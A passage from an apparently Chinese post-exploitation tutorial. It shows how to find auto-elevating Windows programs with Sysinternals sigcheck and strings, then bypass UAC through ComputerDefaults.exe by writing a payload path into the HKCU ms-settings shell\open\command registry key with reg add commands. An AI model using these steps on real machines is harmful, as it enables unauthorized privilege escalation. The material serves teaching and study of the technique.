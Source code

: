 https://learn.microsoft.com/zh-cn/sysinternals/downloads/sigcheck

下载链接：https://download.sysinternals.com/files/Sigcheck.zip

#### Strings

https://learn.microsoft.com/en-us/sysinternals/downloads/strings

下载链接：https://download.sysinternals.com/files/Strings.zip

#### 演示

以 `ComputerDefaults.exe` 为例，该程序位于`C:\Windows\System32` 目录下

```python
sigcheck.exe /accepteula -m C:\Windows\System32\ComputerDefaults.exe
```

![image-20241009172835082](https://image.201068.xyz/assets/38.后渗透/image-20241009172835082.png)

![image-20241009172918371](https://image.201068.xyz/assets/38.后渗透/image-20241009172918371.png)

Strings 可以找出所有具有 `autoElevate` 属性的程序

```python
strings.exe /accepteula -s C:\Windows\System32\*.exe | findstr /i "autoElevate"
```

![image-20241009173256318](https://image.201068.xyz/assets/38.后渗透/image-20241009173256318.png)

#### 进行分析

下面以 ComputerDefaults.exe 为例进行分析，并通过该程序绕过UAC 实现提权。

ComputerDefaults.exe 运行后会打开 Windows的默认应用。

①直接到 System32 目录下运行 ComputerDefaults.exe 程序，打开“**默认应用**”界面，并未出现UAC弹窗

②使用进程监控器 process monitor 监控 `ComputerDefaults.exe` 进程的所有操作行为，可以发现 ComputerDefaults.exe 进程会先查询注册表 `HKCU\Software\Classes\ms-settings\shell\open\command` 中的数据，

发现该路径不存在后，继续查询注册表 `HKCR\ms-settings\Shell\Open\Command\DelegateExecute` 中的数据并读取

通常情况下，以“`shell\open\command`”命名的注册表中存储的是可执行文件的路径，程序会读取其中的键值并运行相应的可执行文件。

由于`ComputerDefaults.exe` 是**UAC白名单中的程序**，运行时默认提升了权限，因此在运行该键值中的可执行文件时默认为管理员权限。

③执行以下命令，在注册表 `HKCU\Software\Classes\ms-settings\shellopen\command`（如果没有就创建）中将要执行的攻击载荷路径分别写入“默认”值和“`DelegateExecute`”值（这里写入的是 cmd 的路径)  

```python
shell
chcp 65001
reg add "HKCU\Software\Classes\ms-settings\shell\open\command" /d "C:\windows\system32\cmd.exe" /f
  
reg add "HKCU\Software\Classes\ms-settings\shell\open\command" /v DelegateExecute /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```

> 注：**标准用户对该注册表键值有修改权限**，并且对`HKCU`的修改会**自动同步**到`HKCR`。
